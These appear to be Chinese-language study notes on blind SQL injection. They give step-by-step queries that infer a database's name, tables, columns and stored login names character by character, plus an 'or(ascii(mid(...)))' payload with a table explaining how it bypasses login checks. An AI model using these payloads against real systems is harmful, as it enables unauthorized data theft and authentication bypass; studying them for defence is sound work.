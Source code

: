 ```sql
#获取database的name的长度
select * from aj_report.lesson_user where id = 1 and length(database()) = 9;

#获取database的name的第1个字符
select * from aj_report.lesson_user where id = 1 and substring(database(),1,1) = 'a';

#获取database的name的第2个字符
select * from aj_report.lesson_user where id = 1 and substring(database(),1,2) = 'aj';
select * from aj_report.lesson_user where id = 1 and substring(database(),2,1) = 'j';
......
#获取database的name的第1个字符
select * from aj_report.lesson_user where id = 1 and left(database(),1) = 'a';

#获取database中的表的名字
select * from lesson_user where id=1 AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=DATABASE())=19;
#获取database中的表的名字的长度(先获取第一个表的名字)
select * from lesson_user where id=1 AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1))=16;
select * from lesson_user where id=1 AND LENGTH((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 1,1))=2;
......
#获取database中的表的名字的第1个字符
select * from lesson_user where id=1 AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),1,1)='a';
select * from lesson_user where id=1 AND SUBSTRING((SELECT table_name FROM information_schema.tables WHERE table_schema=DATABASE() LIMIT 0,1),2,1)='u';

#获取lesson_user中字段的个数
select * from aj_report.lesson_user where id=1 AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='lesson_user')=5;

#获取lesson_user中第1个字段的名字的长度
select * from aj_report.lesson_user where id=1 AND LENGTH((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='lesson_user' LIMIT 0,1))=3;

#获取lesson_user中第1个字段的名字的第1个字符
select * from aj_report.lesson_user where id=1 AND SUBSTRING((SELECT column_name FROM information_schema.columns WHERE table_schema=DATABASE() AND table_name='lesson_user' LIMIT 0,1),1,1)='i';

#获取lesson_user中表的login_name字段中第一个记录的长度
select * from aj_report.lesson_user where id=1 AND LENGTH((SELECT login_name FROM lesson_user LIMIT 0,1))=2;

#获取lesson_user中表的login_name字段中第一个记录的第1个字符
select * from lesson_user where id=1 AND SUBSTRING((SELECT login_name FROM lesson_user LIMIT 0,1),1,1)='1';


```

```sql

#盲注脚本
or(ascii(mid(code from 1 for 1))=1)
```

| 组件                     | 含义                                                         |
| ------------------------ | ------------------------------------------------------------ |
| `mid(code from 1 for 1)` | 提取字段 `code` 的第1个字符                                  |
| `ascii(...)`             | 将该字符转为ASCII码                                          |
| `=1`                     | 判断是否等于1（即判断code字段的第一个字符的ASCII值是否为1）  |
| `or (...)`               | 如果条件为真，则整体 `WHERE` 条件为真，从而绕过验证，成功登录或获取数据 |
